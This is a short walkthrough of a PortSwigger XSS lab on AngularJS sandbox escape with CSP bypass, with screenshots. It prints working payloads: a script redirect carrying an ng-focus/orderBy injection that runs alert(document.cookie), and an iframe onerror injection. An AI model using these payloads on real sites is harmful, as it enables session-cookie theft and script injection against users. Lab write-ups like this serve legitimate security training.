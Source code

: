 ## Welcome, my friend. Today we will start the [27. XSS lab](https://portswigger.net/web-security/cross-site-scripting/contexts/client-side-template-injection/lab-angular-sandbox-escape-and-csp) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/865ee715-c5cf-474e-ae69-9200a7b8822a)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/7ab4ead7-dd59-412a-9b43-6e8620483d9a)

### Let's enter html code in body:

```
<h1>hi</h1> <h5>0xT0R</h5>
```

![image](https://github.com/user-attachments/assets/95782d63-e034-4e8a-bbc6-87c286402020)

### Enter ```View exploit```:


![image](https://github.com/user-attachments/assets/a3ca2bd9-fdbf-41d0-9f4f-ffc45e657810)


### Let's enter ```javascript``` code in body:

```
<script>
location='https://0ac400d8031a89ac8368053d001200cb.web-security-academy.net/?search=%3Cinput%20id=x%20ng-focus=$event.composedPath()|orderBy:%27(z=alert)(document.cookie)%27%3E#x';
</script>
```

![image](https://github.com/user-attachments/assets/6a989dd0-9a29-4bbf-91ae-dfd8668ae605)



### Let's enter ```javascript``` code in body but this code don't need to useraction:


```
<iframe src="https://0acc008b038f78ee88f91432009f001c.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```


![image](https://github.com/user-attachments/assets/b6f95238-0f94-4bfc-be24-64be13e460ab)


-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/284ebebd-da4f-4c2a-bcb2-04eb0ef8a878" >
</p>
